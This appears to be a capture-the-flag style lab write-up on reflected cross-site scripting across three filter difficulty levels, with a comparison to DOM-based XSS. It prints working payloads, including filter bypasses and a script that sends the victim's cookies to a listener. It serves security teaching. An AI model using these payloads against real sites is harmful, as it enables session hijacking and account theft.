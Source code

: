 # Reflected XSS

Reflected XSS is a type of Cross-Site Scripting vulnerability where an attacker injects malicious script code into a web application. This injected code is reflected off the web server, meaning it’s immediately executed in the user’s browser without being stored on the server.

In a reflected XSS attack:
1.	The attacker crafts a URL with a malicious payload (usually a script) embedded in it.
2.	The user clicks the link or the attacker forces the user to visit that URL.
3.	The web server processes the request and reflects the malicious payload back in the HTTP response.
4.	The payload gets executed in the user’s browser as if it came from a trusted source (the vulnerable site).

The key point here is that the malicious code is not stored on the server. It is instead reflected off the server in the response, which makes it a non-persistent or reflected attack.
<br><br>

## Comparison of DOM XSS and Reflected XSS

| DOM-Based XSS | Reflected XSS |
|---------------|---------------|
| **Where it happens**: Client-side (in the browser). | **Where it happens**: Server-side (on the web server). |
| **How the attack works**: Malicious payload is inserted into the page dynamically by client-side JavaScript | **How the attack works**: Malicious payload is reflected by the server and executed as part of the HTTP response. |
| **Example**: JavaScript on the client reads untrusted data from the URL and injects it directly into the DOM, leading to execution. | **Example**: The server takes untrusted input from the URL, reflects it back in the HTML response, and the script executes when the response is rendered by the browser. |
| **No need for user interaction with the server.** Attack is entirely on the client-side. | **Requires user to click on a malicious link** that contains the payload. |

---

### A More Simple Way to Think About It

DOM-Based XSS: 
- The attack happens in the browser. The malicious JavaScript relies on how the page's JavaScript handles input and updates the DOM.
- The victim doesn’t need to click anything special, they just need to visit a URL where the page’s JavaScript is insecure.

Reflected XSS:
- The attack happens through the server. The attacker crafts a malicious URL with a payload and tricks the victim into clicking it.
- The server then reflects the malicious payload back in its response, which the browser executes.

---

## Low Difficulty

In Low difficulty, the code will not check the requested input before including it to be used in the output text:

<img src="./Screenshots/Screenshot1.png" width=80% height=80%><br><br>

### Typing a Name

<img src="./Screenshots/Screenshot2.png" width=80% height=80%>

<img src="./Screenshots/Screenshot3.png" width=80% height=80%><br><br>

### Injecting Javascript

<img src="./Screenshots/Screenshot4.png" width=80% height=80%>

<img src="./Screenshots/Screenshot5.png" width=80% height=80%>

<img src="./Screenshots/Screenshot6.png" width=80% height=80%><br><br>

We can see that from the above examples, the user input has been reflected to the page without any sanitization, that means we can insert anything directly into the web page code by checking on the page source.

### Cookie Exfiltration

Like the previous challenge, we can use the same script `<script>window.location='http://127.0.0.1:1337/?cookie=' + document.cookie</script>` to steal the cookie and send it to our hosting server:

<img src="./Screenshots/Screenshot7.png" width=80% height=80%>

<img src="./Screenshots/Screenshot8.png" width=80% height=80%>

<img src="./Screenshots/Screenshot9.png" width=80% height=80%><br><br>

---

## Medium Difficulty

In Medium difficulty, the code has now sanitized the user input by removing the exact string `<script>` from the user-provided data:

<img src="./Screenshots/Screenshot10.png" width=80% height=80%><br><br>

### Injecting Javascript

In the page source, we can see that the front `<script>` tag has been removed:

<img src="./Screenshots/Screenshot11.png" width=80% height=80%>

<img src="./Screenshots/Screenshot12.png" width=80% height=80%><br><br>

### Solution

To bypass this, we can use several methods to do so:

#### a. Case Insensitive

HTML tags like `<script>` are case-insensitive in HTML, meaning they can be written in any combination of uppercase and lowercase letters, and browsers will still interpret them correctly. If we use `<SCRIPT>` instead of `<script>`, it will become `<SCRIPT>alert("You've been hacked")</script>`. Since the code is only designed to remove lowercase `<script>`, using uppercase `<SCRIPT>` can help to bypass this and execute the script:

<img src="./Screenshots/Screenshot13.png" width=80% height=80%>

<img src="./Screenshots/Screenshot14.png" width=80% height=80%>

<img src="./Screenshots/Screenshot15.png" width=80% height=80%><br><br>

#### b. Tag Injection

Since the code is designed to remove only the exact match of `<script>` tag, we can split the `<script>` tag into parts to bypass the filter:

<img src="./Screenshots/Screenshot16.png" width=80% height=80%>

<img src="./Screenshots/Screenshot17.png" width=80% height=80%>

<img src="./Screenshots/Screenshot18.png" width=80% height=80%><br><br>

From the above example, the filter removes the first part (`<script>`) but leaves the remaining part (`ipt>`), which, when combined, forms a valid `<script>` tag.

We can then use the same method and get the cookies to our server like previous difficulty:

<img src="./Screenshots/Screenshot19.png" width=80% height=80%>

<img src="./Screenshots/Screenshot20.png" width=80% height=80%><br><br>

---

## High Difficulty

In high difficulty, the code has introduced a more complex regular expression-based approach to attempt to filter out the `<script>` tag and potentially protect against XSS. The regular expression uses the `preg_replace` function to search for any part of the string that matches a pattern resembling `<script>`.

<img src="./Screenshots/Screenshot21.png" width=80% height=80%><br><br>

It looks for:
- Any tag that starts with `<` and ends with `t` (since the regular expression is designed to match any permutation of characters that can form the string `script`).
- The pattern `/<(.*)s(.*)c(.*)r(.*)i(.*)p(.*)t/i` will match case-insensitive variations of the string `<script>` (e.g., `<ScRiPt>`, `<SCRIPT>`, etc.) and remove it.
  
How it works:
- The regex is looking for any variation of the word `script` within angle brackets, and it removes it from the user input.

With this new regular expression-based approach, the code will attempt to remove any case-insensitive permutations of `<script>`, such as: `<ScRiPt>alert('XSS')</ScRiPt>`

If we use the previous tag injection method, the whole Javascript will be removed as it matches the pattern:

<img src="./Screenshots/Screenshot22.png" width=80% height=80%>

<img src="./Screenshots/Screenshot23.png" width=80% height=80%><br><br>

### Solution

Since the regular expression is focused on remove `<script>` tag only, we can still use other tag like `<img src>` that we used on previous challenge to bypass this:

<img src="./Screenshots/Screenshot24.png" width=80% height=80%>

<img src="./Screenshots/Screenshot25.png" width=80% height=80%>

<img src="./Screenshots/Screenshot26.png" width=80% height=80%><br><br>

---

## Conclusion

Reflected XSS occurs when user input is immediately echoed by the server in the HTTP response without proper sanitization or encoding. Unlike DOM-based XSS, this type of attack involves server-side reflection, making it exploitable only when a user clicks a specially crafted link containing a malicious script.

In this challenge, we observed:
- Low difficulty had no sanitization, allowing raw JavaScript injection via the query string.
- Medium difficulty attempted to strip exact `<script>` tags but failed to account for uppercase, alternate encodings, or tag-splitting techniques.
- High difficulty implemented a more sophisticated regex filter targeting variations of the `<script>` tag, but it still allowed script execution using alternate HTML elements like `<img>` and event handlers (`onerror`).

Even with regex-based filtering, incomplete sanitization still left room for bypasses using creative payloads, which demonstrates how XSS defenses require context-aware output encoding rather than blacklist-based filtering.

---

### Skills Applied:

- Exploiting unsanitized query parameters with `<script>` tags
- Bypassing string filters using
  - Case-insensitive tags (`<SCRIPT>`)
  - Tag-splitting (`<scr<script>ipt>`)
  - Alternate XSS vectors (`<img src=x onerror=alert()>`)
- Understanding server-side sanitization via regular expressions
- Analyzing PHP source code logic (preg_replace, htmlspecialchars)
- Comparing client-side (DOM) vs server-side (Reflected) XSS behavior
